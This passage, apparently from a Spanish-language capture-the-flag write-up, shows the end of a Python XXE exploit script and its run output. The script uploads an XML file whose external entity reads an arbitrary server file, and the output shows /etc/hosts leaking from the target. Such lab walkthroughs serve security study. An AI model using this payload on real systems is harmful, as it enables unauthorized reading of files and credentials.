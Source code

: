 ```python
------WebKitFormBoundarye9DdoqEyGv2lrcPH
Content-Disposition: form-data; name="file"; filename="test.xml"
Content-Type: text/xml

<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
   <!ELEMENT foo ANY >
   <!ENTITY xxe SYSTEM  "file:///{file}" >]>
<Block>
	<Author>&xxe;</Author> 
	<Subject>test</Subject>
	<Content>test</Content>
</Block>

------WebKitFormBoundarye9DdoqEyGv2lrcPH--


""".format(file=file)

	r= requests.post(url,data=data,headers=headers,proxies=proxies)
	print (r.text)

if __name__ == '__main__':

	if len(sys.argv) != 2:
		help()
	else:
		xxe(sys.argv[1])
```

Ejecución:

```bash
❯ python3 xxe.py /etc/hosts
 PROCESSED BLOGPOST: 
  Author: 127.0.0.1     localhost
127.0.1.1       devoops

# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters

 Subject: test
 Content: test
 URL for later reference: /uploads/test.xml
 File path: /home/roosa/deploy/src
```

